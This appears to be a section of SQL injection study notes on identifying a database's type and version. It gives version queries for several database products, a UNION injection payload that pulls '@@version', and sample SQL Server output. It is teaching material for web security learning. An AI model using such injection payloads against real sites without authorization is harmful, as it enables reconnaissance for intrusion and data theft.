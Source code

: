 # 13. Querying the database type and version

You can potentially identify both the **database type** and **version** by injecting provider-specific queries to see which one works.

### 🗂️ Common Version Detection Queries

| 🛠️ **Database Type** | 🧪 **Query** |
| --- | --- |
| 🧮 Microsoft, MySQL | `SELECT @@version` |
| 🐘 PostgreSQL | `SELECT version()` |
| 🏛️ Oracle | `SELECT * FROM v$version` |

---

### 🧪 Example Using UNION Injection

You could use a `UNION` attack with the following input:

```sql
' UNION SELECT @@version--
```

### 💡 Possible Output

In this case, you can confirm the database is **Microsoft SQL Server**, and view the version in use:

```
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```